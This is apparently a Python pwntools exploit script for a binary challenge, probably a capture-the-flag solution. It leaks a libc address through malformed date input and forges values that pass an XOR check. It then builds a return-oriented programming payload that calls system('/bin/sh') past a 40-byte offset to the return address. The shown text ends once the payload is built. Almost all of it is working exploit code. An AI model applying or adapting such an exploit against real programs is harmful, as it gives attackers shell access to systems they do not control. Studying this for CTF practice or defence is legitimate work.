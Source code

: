 ```python
io.sendafter('name: ', b'\0')
io.sendlineafter('year: ', b'0')
io.sendlineafter('month: ', b'0')
io.sendlineafter('day: ', b'-')    

libc_leak = int(io.recvuntil("\n").split(b' ')[5].decode().strip('\n'))
print(f'Received address: {hex(libc_leak)}')
libc.address = libc_leak - libc.sym["_IO_2_1_stdin_"]
print(f'Libc _IO_2_1_stdin_ address: {hex(libc.sym["_IO_2_1_stdin_"])}')
print(f'Libc base address: {hex(libc.address)}')

io.sendlineafter('> ', b'2')

io.sendlineafter('change?', b'0')

io.sendlineafter('> ', b'1')

target_number_in_int = 32
target_number_in_hex = struct.pack("<I", target_number_in_int)
print(f'Target number in hex: {target_number_in_hex}')

total_username_length = 64

string_in_memory = target_number_in_hex * 15
io.sendafter('name: ', string_in_memory)

calculated_padding = total_username_length - len(target_number_in_hex*15)

string_in_memory += b'\x00' * calculated_padding

print(f'String in memory: 0x{string_in_memory.hex()}')

current_xor = 0
for i in range(0, len(string_in_memory), 8):
    chunk = string_in_memory[i:i+8]
    val, = struct.unpack("<Q", chunk)
    current_xor ^= val

birth_year = current_xor & 0xFFFFFFFFFFFFFFFF

print(f'Calculated birth year: {birth_year}, hex: {hex(birth_year)}') 

io.sendlineafter('year: ', str(birth_year).encode())
io.sendlineafter('month: ', str(libc_leak).encode())
io.sendlineafter('day: ', b'0')

io.sendlineafter('> ', b'2')

io.sendlineafter('change?', str(target_number_in_int).encode())

offset_to_return_address = 40
rop = ROP(libc)
ret_addr = rop.find_gadget(['ret'])[0]
pop_rdi = libc.address + 0x26b72
binsh = next(libc.search(b'/bin/sh'))

payload = flat([
    offset_to_return_address * b'A',
    pop_rdi,
    binsh,
    ret_addr,
    libc.sym["system"]
])
```